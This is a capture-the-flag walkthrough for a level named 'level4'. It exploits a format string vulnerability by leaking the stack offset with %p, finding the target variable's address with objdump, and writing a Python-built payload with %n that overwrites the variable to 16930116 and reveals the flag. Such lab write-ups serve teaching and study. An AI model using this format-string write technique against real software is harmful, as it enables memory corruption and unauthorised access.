# LEVEL4

This level is similar to the previous one, as it includes a condition that compares an uninitialized variable with the value *16930116* and a call to *printf()* before it. Therefore, we can use the same exploit to retrieve the flag.

To proceed, we need to gather the following informations:
* The offset with *printf()*
* The address of the variable

First, we'll determine the offset in the memory where we have to write.

```
> ./level4
> AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
```
![alt text](Ressources/images/offset.png)

The offset is located at the twelfth position. Next, we'll retrieve the address of the variable that we want to modify.

```
objdump -d level4
```
![alt text](Ressources/images/address.png)

In the function *n()*, we notice that the address *0x08049810* is copied into the EAX register and then compared with the value *0x1025544* (which is 16930116 in decimal). This address corresponds to the variable we want to modify.

With all this information, we can create the payload in the same format as in the previous level.

```
python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"' > /tmp/payload4
```

We used the value *16930112* instead of *16930116* because the first 4 bytes were already used to write the address of the variable.\
Finally, we can retrieve the flag for the next level!

```
cat /tmp/payload4 | ./level4
```

**LEVEL4 COMPLETE!**